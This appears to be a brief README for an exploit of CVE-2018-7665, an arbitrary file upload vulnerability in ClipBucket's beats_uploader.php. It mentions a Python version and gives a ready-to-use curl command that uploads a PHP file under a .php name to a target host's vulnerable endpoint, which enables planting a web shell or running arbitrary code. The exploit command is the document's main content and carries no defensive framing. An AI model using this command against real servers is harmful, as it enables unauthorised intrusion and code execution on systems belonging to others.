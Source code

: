 # ClipBucket - Arbitrary File Upload (CVE-2018-7665)
ClipBucket - 'beats_uploader' Arbitrary File Upload (Python Version) 🐍❤
--
You can exploit this vuln with Curl:
```bash
curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php" "http://$HOST/actions/beats_uploader.php"
```
